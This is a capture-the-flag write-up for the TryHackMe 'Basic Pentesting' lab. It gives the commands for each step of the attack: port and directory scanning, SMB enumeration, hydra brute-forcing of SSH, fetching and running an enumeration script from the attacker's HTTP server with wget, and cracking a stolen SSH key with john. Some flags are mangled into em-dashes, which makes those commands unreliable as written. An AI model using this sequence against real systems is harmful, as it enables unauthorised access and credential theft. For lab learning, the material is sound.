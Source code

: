 ```yaml
---
description: https://tryhackme.com/room/basicpentestingjt
---
```


# Basic Pentesting

Wrap-UP:

1.  use **nmap** to scan the open ports

    ```
    nmap -sV <ip>
    ```
2. use **gobuster** to enumerate hidden folders in web server\
   Syntax: gobuster -u \[HTTP://ip] -w \[wordlist]\
   gobuster dir -u http://ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \

3.  use **Enum4Linux** to scan the whole system\
    Syntax: Enum4linux -a \[IP]\
    Instead of grabbing user information from Enum4Linux output, we can scan smb to get information:\
    Syntax: smbclient \[IP]//\[smb share] -U \[username, if applicable]\
    ![](<../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png>)\
    Connect:\


    ```
    smbclient //<IP>/anonymous

    staff.txt:
    Announcement to staff:

    PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
    this is how mistakes happen. (This means you too, Jan!)

    -Kay
    ```
4.  Use **hydra** to brutal-forcing the password:\
    Syntax: hydra -l \[username] -P \[wordlist] \[IP] \[service]\
    OR\
    Syntax: hydra -l \[username] -P \[wordlist] \[service://IP]\
    \


    ```
    hydra -l jan -P /usr/share/wordlists/rockyou.txt <IP> ssh


    ```
5.  login with the credentials get from previous steps.\


    ```
    cat /etc/passwd

    SSH into the machine using the discovered credentials (user: jan):

    ssh jan@<target-ip-address>
    ```
6.  Use **privilege escalation tool like LinEnum or Linpeas**\
    transport the linpeas:\
    scp \[linenum.sh] \[user@ip]\
    use linenum.sh to scan:\
    ./linenum.sh | tee long.txt\
    \


    Start a Python HTTP server to transfer scripts from your local machine to the target:

    > python3 -m http.server — bind \<your-tun0-ip> 8000
    >
    > \
    > ![](<../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1).png>)\
    >
    >
    > On the target machine, download the script:
    >
    > > wget http://\<your-tun0-ip>:8000/\<script-file-name>\
    > > \
    > > \
    > >
    > >
    > > Make the script executable and run it:
    > >
    > > > chmod +x \<script-name>\
    > > > ./\<script-name>
    > >
    > > \
    > > ![](<../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1).png>)\
    > > \
    > > chmod 600 id\_rsa
7. From task 6 we can find the id\_rsa hash key for kay to login. Copy the file to the local machine and use john to crack the hash file.\
   Syntax: **ssh2john** \[file] > hash.txt\
   &#x20;    ssh2john id\_rsa > john-pass\
   Crack the hash file password:\
   Syntax: john hash.txt — wordlist=\[wordlist]\
   john — wordlist=/usr/share/wordlists/rockyou.txt john-pass\
   ![](<../.gitbook/assets/image (11) (1) (1) (1).png>)
8.  ssh to the new user with cracked rsa\_id\


    SSH into user `kay` using the cracked key:

    > ssh -i id\_rsa kay@\<target-ip>\
    > ![](<../.gitbook/assets/image (12) (1) (1).png>)\
    > \
    > ![](<../.gitbook/assets/image (13) (1).png>)
